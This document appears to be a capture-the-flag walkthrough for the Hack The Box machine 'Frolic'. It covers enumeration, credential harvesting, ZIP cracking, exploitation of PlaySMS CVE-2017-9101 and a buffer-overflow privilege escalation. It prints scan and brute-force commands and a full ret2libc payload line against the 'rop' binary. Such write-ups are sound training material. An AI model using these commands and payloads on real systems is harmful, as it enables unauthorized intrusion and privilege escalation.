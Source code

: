 # [Frolic](https://app.hackthebox.com/machines/frolic)

```bash
rustscan 10.10.10.111 --ulimit 5000 -b 2000
```
![Alt text](img/image.png)



Let's do nmap scan for open ports.

```bash
nmap -sC -sV -p22,139,445,1880,9999 -A 10.10.10.111 -Pn
```

![Alt text](img/image-1.png)

Here, we see SMB port is open on target, let's do `smbmap` to see shares on SMB

```bash
smbmap -H 10.10.10.111
```

![Alt text](img/image-2.png)


From result, we see that we don't have any access to shares.

On port 9999, we have nginx server, let's do directory brute-force here.

```bash
gobuster dir -u http://10.10.10.111:9999/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,js
```

![Alt text](img/image-5.png)


On '/backup' directory, we see some interesting stuff.

![Alt text](img/image-3.png)


While we curl for 'user.txt' and 'password.txt' for backup directory. We see that we have some credentials.

![Alt text](img/image-4.png)


admin: imnothuman

We can see '/admin' panel that have login page. Let's try to login with default credentials.

![Alt text](img/image-9.png)



Let's do directory brute-force for '/dev' directory.
```bash
gobuster dir -u http://10.10.10.111:9999/dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,js
```

![Alt text](img/image-6.png)


Let's try to curl these pages.

![Alt text](img/image-7.png)


We find 'playsms' application, on this URL.

![Alt text](img/image-8.png)



Let's look at the source page of 'admin' panel.

![Alt text](img/image-10.png)

Hola, we can see clear-text credentials on code that is **hard-coded.**


admin: superduperlooperpassword_lol

While we login with above credentials, we have success page like this.

![Alt text](img/image-11.png)


While I search this result on Google, I see that is 'Ook!' programming language.

![Alt text](img/image-12.png)


While, I use decoder for 'Ook!' programming language on [here](https://dcode.fr/ook-language)

![Alt text](img/image-13.png)


Let's check this '/asdiSIAJJ0QWE9JAS' endpoint.

Again we have some fucking text on this page.

![Alt text](img/image-14.png)


I searched on [Cyberchef](https://cyberchef.io/)

![Alt text](img/image-15.png)


It is actually ZIP file.


I download this string to my machine as ZIP file, tried to unzip this, it says me that  I need to enter password. FUCK

![Alt text](img/image-16.png)


Let's brute-force this via `fcrackzip` tool.
```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt index.php.zip
```

![Alt text](img/image-17.png)


Let's unzip password, and we got again 'index.php' file, we read this file, again we have fucking long length of string.


![Alt text](img/image-18.png)


I do again Cyberchef to decode this, I have final result.

![Alt text](img/image-19.png)


I searched output on Google, I know that it is 'Brainfuck' language.

![Alt text](img/image-20.png)


Let's decode this by using 'Brainfuck' programming language.

![Alt text](img/image-21.png)


Now, I have password like this 'idkwhatispass'

I check this credentials on services which I have see before, and it works on PlaySMS

admin: idkwhatispass

![Alt text](img/image-22.png)


I searched exploit on Google for PlaySMS application, I found CVE-2017-9101.

![Alt text](img/image-23.png)


I got shell,

![Alt text](img/image-24.png)


Let's make this interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-25.png)


user.txt

![Alt text](img/image-26.png)

There , we have binary directory called '.binary'  (I find hidden directory with -a option of `ls` command)

![Alt text](img/image-28.png)

I searched exploitation for this '.rop' and find the exploit.

```bash
./rop $(python -c 'print("a"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7" + "\x0b\x4a\xf7\xb7")')
```


root.txt

![Alt text](img/image-27.png)

